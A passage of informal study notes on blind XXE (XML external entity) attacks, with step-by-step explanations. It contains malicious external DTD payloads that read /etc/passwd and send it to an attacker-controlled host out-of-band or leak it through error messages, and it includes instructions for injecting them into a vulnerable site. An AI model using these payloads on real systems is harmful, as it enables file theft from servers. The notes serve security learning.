 This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

### Exploiting blind XXE to exfiltrate data out-of-band
An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:

```
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://COllbrabter/?x=%file;'>"> 
%eval; 
%exfiltrate;
```
you should put this into website  you have then
into the request of vulnerable website you put this 
`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://YourWebsite"> %xxe; ]>`

This DTD carries out the following steps:

- Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `exfiltrate`. The `exfiltrate` entity will be evaluated by making an HTTP request to the attacker's web server containing the value of the `file` entity within the URL query string.
- Uses the `eval` entity, which causes the dynamic declaration of the `exfiltrate` entity to be performed.
- Uses the `exfiltrate` entity, so that its value is evaluated by requesting the specified URL.

### Exploiting blind XXE to retrieve data via error messages

You can trigger an XML parsing error message containing the contents of the `/etc/passwd` file using a malicious external DTD as follows:

```
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> %eval; 
%error;
```
then all you need to is 
`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://YourWebsite"> %xxe; ]>`
which will cause error and show the file (and the file here is `/ete/passwd`)
This DTD carries out the following steps:

- Defines an XML parameter entity called `file`, containing the contents of the `/etc/passwd` file.
- Defines an XML parameter entity called `eval`, containing a dynamic declaration of another XML parameter entity called `error`. The `error` entity will be evaluated by loading a nonexistent file whose name contains the value of the `file` entity.
- Uses the `eval` entity, which causes the dynamic declaration of the `error` entity to be performed.
- Uses the `error` entity, so that its value is evaluated by attempting to load the nonexistent file, resulting in an error message containing the name of the nonexistent file, which is the contents of the `/etc/passwd` file.
